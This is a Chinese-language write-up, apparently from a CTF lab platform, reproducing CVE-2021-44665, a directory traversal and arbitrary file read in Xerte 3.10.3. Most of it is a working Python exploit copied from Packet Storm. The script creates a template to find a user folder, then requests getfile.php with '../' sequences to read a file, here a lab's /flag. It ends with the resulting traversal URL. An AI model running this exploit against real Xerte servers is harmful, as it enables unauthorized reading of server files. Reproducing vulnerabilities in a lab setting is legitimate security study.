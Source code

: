 ```yaml
---
title: CVE-2021-44665【目录遍历 & 任意文件读取】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - '目录遍历'
  - '任意文件读取'
---
```


## 1. 漏洞介绍

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-44665)

## 2. 漏洞分析

[Xerte 3.10.3 Directory Traversal](https://packetstormsecurity.com/files/166181/Xerte-3.10.3-Directory-Traversal.html)

## 3. 漏洞复现

poc.py【来源：[Xerte 3.10.3 Directory Traversal ≈ Packet Storm](https://packetstormsecurity.com/files/166181/Xerte-3.10.3-Directory-Traversal.html)】

```python
import requests
import re

xerte_base_url = "http://eci-2zegyjtjnfxk6cokkzlw.cloudeci1.ichunqiu.com/"
file_to_grab = "/../../../../../flag"
php_session_id = "" # If guest is not enabled, and you have a session ID. Put it here.

with requests.Session() as session:
    # Get a PHP session ID
    if not php_session_id:
        session.get(xerte_base_url) 
    else:
        session.cookies.set("PHPSESSID", php_session_id)

    # Use a default template
    data = {
        'tutorialid': 'Nottingham',
        'templatename': 'Nottingham',
        'tutorialname': 'exploit',
        'folder_id': ''
    }

    # Create a new project in order to create a user-folder
    template_id = session.post(xerte_base_url + '/website_code/php/templates/new_template.php', data=data)

    # Find template ID
    data = {
        'template_id': re.findall('(\d+)', template_id.text)[0]
    }

    # Find the created user-direcotry:
    user_direcotry = session.post(xerte_base_url + '/website_code/php/properties/media_and_quota_template.php', data=data)
    user_direcotry = re.findall('USER-FILES\/([0-9]+-[a-z0-9]+-[a-zA-Z0-9_]+)', user_direcotry.text)[0]

    # Grab file
    result = session.get(xerte_base_url + '/getfile.php?file=' + user_direcotry + file_to_grab)
    print(result.text)
    print("|-- Used Variables: --|")
    print("PHP Session ID: " + session.cookies.get_dict()['PHPSESSID'])
    print("user direcotry: " + user_direcotry)
    print("Curl example:")
    print('curl --cookie "PHPSESSID=' + session.cookies.get_dict()['PHPSESSID'] + '" ' + xerte_base_url + '/getfile.php?file=' + user_direcotry + file_to_grab)
```

注，flag 的位置是慢慢测出来的

![1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309061744790.jpg)

`http://eci-2zegyjtjnfxk6cokkzlw.cloudeci1.ichunqiu.com//getfile.php?file=7-guest2-Nottingham/../../../../../flag`

